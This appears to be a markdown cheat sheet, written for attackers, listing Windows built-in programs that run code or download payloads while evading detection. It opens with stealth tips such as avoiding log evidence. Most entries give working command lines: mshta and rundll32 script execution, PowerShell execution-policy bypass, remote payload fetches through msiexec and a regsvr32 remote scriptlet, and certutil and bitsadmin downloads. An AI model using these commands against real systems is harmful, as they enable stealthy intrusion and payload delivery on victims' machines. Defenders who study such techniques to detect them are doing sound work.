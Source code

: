 As an attacker often your aim is to execute code on a target system while simultaneously avoiding detection. 
Luckily Windows provides many built in tools to help you execute code while leaving very little evidence behind. 

A list of ways to execute code, including examples, are shown below. Note that UAC bypasses and DLL hijacking will not be included as these are covered elsewhere.

#### General tips:

To remain hidden ideally you want to:

- Avoid creating new processes/network connections
- Avoid creating anomalous parent/child relationships
- Avoid creating/modifying files/registry entries
- Avoid creating memory anomalies
- Avoid leaving evidence in log files

If you are going to drop files, then drop utilities to help run code as opposed to dropping the payload itself.

#### References:

Microsoft command line reference:
https://technet.microsoft.com/en-us/library/cc772390(v=ws.11).aspx

UAC Bypasses:
https://github.com/hfiref0x/UACME


### Code Execution Techniques:

- appsyncvpublishing.exe
  - Description: This utility supports the ability to execute powershell making it an excellent alternative to Powershell.exe.
  - Example: SyncAppvPublishingServer.exe "n;calc"

- control.exe
  - Description: The control panel feature within Windows supports the execution of arbitrary DLLs as demonstrated in the shadowbrokers release. (https://www.dearbytes.com/blog/playing-around-with-nsa-hacking-tools/)
  - Example: control.exe payload.dll

- csc.exe
  - Description: The .NET compiler can be used to compile a c# payload locally that can then be executed.
  - Example: C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /out:payload.exe payload.cs
  - Example payload.cs: public class x{public static void Main(){System.Diagnostics.Process.Start("calc");}}
  
- cscript.exe/wscript.exe
  - Description: Windows script engines that support both VBS and JScript execution. CScript is the console version, WScript is the Window version. Neither version supports scripts being supplied on the command line, instead a file must be created containing the script or a funky bat file wrapper.
  - Example: cscript.exe test.vbs (where test.vbs contains WScript.Echo "test")

- forfiles.exe
  - Description: Forfiles supports the ability to execute commands and seems to be equivalent to cmd.
  - Example: forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe

- msiexec.exe
  - Description - The Windows installer typically used to install new software or patches. It be used to download and execute a remote payload.
  - Example: msiexec /i http://server/package.msi

- mshta.exe
  - Description: MSHTA can be used to execute HTA files (containing scripts) or directly execute VBScript/JScript from the command line.
  - Example: mshta bad.hta
  - Example: mshta vbscript:Execute("MsgBox(""amessage"",64,""atitle"")(window.close)")
  - Example: mshta javascript:alert('test');

- powershell.exe
  - Description: The most well known and most useful attacker utility. Powershell can be operated in console mode, with commands provided on the command line or through passing a ps1 file containing commands.
  - Example: powershell -c calc
  - Example: powershell -exec bypass -File test.ps1
  
- regsvr32.exe
  - Description: Command-line tool that registers dll files as command components in the registry. Notable for its use to bypass UAC and useful as it supports remote DLL retrieval.
  - Example: regsvr32 /s /n /u /i:[URL] scrobj.dll

- rundll32.exe
  - Description: Loads and runs DLLs. Three parameters are typically used, the DLL to be executed, the function within the DLL to call and any arguments.
  - Example: rundll32 SHELL32.DLL,ShellExec_RunDLL "calc"
  - Example: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";alert('test');

- winrm.exe
  - Description: WinRM, or Windows Remote Management provides the ability to remotely execute wmi commands. The winrm service is disabled by default but can be enabled.
  - Example: winrm qc -q & winrm i c wmicimv2/Win32_Process @{CommandLine="calc"}


### Download Techniques:

- certutil.exe
  - Description: Allows you to download a payload.
  - Example: certutil -ping [URL]
  - Example: certutil -urlcache -split -f [URL] [output-file]
  
- bitsadmin.exe
  - Description: Allows you to download a payload.
  - Example: bitsadmin /transfer [job-name] /download /priority normal [URL-to-payload] [output-path]
